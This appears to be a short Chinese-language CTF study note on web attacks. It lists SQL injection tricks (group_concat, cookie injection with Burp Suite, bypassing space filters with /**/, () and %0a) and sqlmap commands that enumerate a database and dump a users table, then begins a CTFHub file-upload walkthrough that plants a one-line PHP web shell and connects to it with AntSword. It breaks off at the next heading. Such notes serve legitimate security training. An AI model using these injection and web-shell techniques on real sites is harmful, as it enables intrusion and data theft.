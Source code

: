 **concat函数**时将指定查询到的结果拼接之后以一列的形式列举出来，多个数据之间用逗号隔开，但是各个数据之间没有间距，**空格需要自己添加并用单引号括起来**

group_concat() from 

cookie注入用BurpSuit抓包



常用绕过空格过滤的方法：/**/、()、%0a

------

### sqlmap

查表：sqlmap -u /?id=1 -current-db

查表：sqlmap -u /?id=1 -D security -tables

查列：sqlmap -u /?id=1 -D security -T users -columns

查字段： sqlmap -u /?id=1 -D security -T users -C flag -dump

------



# CTFHUB

## web

------

### 文件上传

------

### 无验证

------

写一句话木马，文件后缀改为php![image-20231208161435560](assets/img/2023/11/image-20231208161435560.png)

上传后用蚁剑连接，找到flag。

------



### 前端验证
